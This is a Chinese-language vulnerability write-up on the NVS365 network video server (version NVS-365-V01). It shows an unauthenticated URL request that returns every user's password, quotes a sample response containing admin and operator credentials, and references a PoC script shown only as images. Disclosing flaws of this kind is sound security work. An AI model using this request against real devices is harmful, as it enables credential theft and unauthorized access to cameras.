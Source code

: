 # 网络视频服务器：NVS365（密码信息未授权访问漏洞）

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

![](./images/media/image2.png){width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

![](./images/media/image3.png){width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

![](./images/media/image4.png){width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://ip:prot/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://ip:prot/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

![](./images/media/image5.png){width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

![](./images/media/image6.png){width="5.758333333333334in"
height="1.145138888888889in"}



POC脚本未授权访问如下，详情可看附件py文件

![](./images/media/image8.png){width="5.764583333333333in"
height="3.5395833333333333in"}

![](./images/media/image9.png){width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

![](./images/media/image10.png){width="5.766666666666667in"
height="5.934027777777778in"}
